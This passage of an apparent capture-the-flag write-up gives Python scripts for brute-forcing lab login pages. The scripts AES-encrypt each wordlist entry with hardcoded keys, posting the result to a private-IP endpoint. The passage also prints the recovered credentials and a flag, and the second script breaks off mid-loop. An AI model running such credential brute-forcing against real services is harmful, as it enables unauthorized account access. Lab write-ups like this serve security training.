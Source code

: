 searching for password:

```
import base64
import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def encrypt(text):
    key = b"MySecretKey12345"
    iv = b"RandomInitVector"
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct_bytes = cipher.encrypt(pad(text.encode('utf-8'), AES.block_size))
    return base64.b64encode(ct_bytes).decode('utf-8')

with open("/home/kali/Documents/Login1/pass.txt", "r") as file:
	for line in file:
		a = line.strip()
		en = encrypt(a)
		data = { "enc_username":"wtKS6o3WD62QDwWPw5EzBA==", "enc_password":en}
		x = requests.post("http://192.168.70.202:3333/login4.php", data=data)
		if 'Password salah' in x.text:
			print("valid")
		else:
			print(f"salah {en}")
```

user: moetest11 <br>
pass: halo111dent307 <br>
flag=CSM{encrypt33d_f0R_duummy} <br>

![Screenshot 2025-05-02 162611](https://github.com/user-attachments/assets/1f64a57f-8a42-48b4-9f15-4e9c0e26151b)


### Login5
searching for username:
```
import base64
import requests
import hashlib
import hmac
import time
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}

def encrypt(text):
    key = b"MySecretKey12345"
    iv = b"RandomInitVector"
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct_bytes = cipher.encrypt(pad(text.encode('utf-8'), AES.block_size))
    return base64.b64encode(ct_bytes).decode('utf-8')

def hmac_sha256(text):
    hmac_key = "ThisIsHmacSecretKey"
    h = hmac.new(hmac_key.encode('utf-8'), text.encode('utf-8'), hashlib.sha256)
    return h.hexdigest()

with open("/home/kali/Documents/Login1/user.txt", "r") as file:
    for line in file:
        a = line.strip()
```